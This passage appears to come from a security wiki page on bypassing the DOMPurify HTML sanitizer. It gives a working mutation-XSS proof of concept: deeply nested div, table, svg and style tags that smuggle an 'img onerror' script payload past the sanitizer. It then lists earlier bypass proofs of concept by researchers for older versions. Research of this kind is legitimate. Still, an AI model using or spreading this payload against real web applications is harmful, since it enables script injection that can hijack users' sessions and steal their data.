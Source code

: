 ```html
<div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><div><table><caption><svg><title><table><caption></caption></table></title><style><a id="</style><img src=x onerror=alert(origin)>"></a></style></svg></caption></table>html
```
{% endcode %}

{% hint style="info" %}
**Earlier Proof of Concepts**:

[**<= 3.1.2** - Kevin Mizu & RyotaK](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#proof-of-concept-3)\
[**<= 3.1.1** - Kevin Mizu](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#proof-of-concept-2)\
[**<= 3.1.0** - IcesFont](https://mizu.re/post/exploring-the-dompurify-library-bypasses-and-fixes#proof-of-concept-1)

[**< 2.2.4** - TheGrandPew](https://twitter.com/TheGrandPew/status/1338773976034598917)\
[**< 2.2.3** - TheGrandPew](https://twitter.com/TheGrandPew/status/1336901666285604866)\
[**< 2.2.2** - Daniel Santos](https://vovohelo.medium.com/from-svg-and-back-yet-another-mutation-xss-via-namespace-confusion-for-dompurify-2-2-2-bypass-5d9ae8b1878f)\
[**< 2.1** - Gareth Heyes](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)\
[**< 2.0.17** - Michał Bentkowski](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)
{% endhint %}

For the latest news and configuration-dependent bypasses, check out the changelog:

{% embed url="https://github.com/cure53/DOMPurify/releases" %}
Changelog of DOMPurify mentioning partial bypasses on specific versions
{% endembed %}
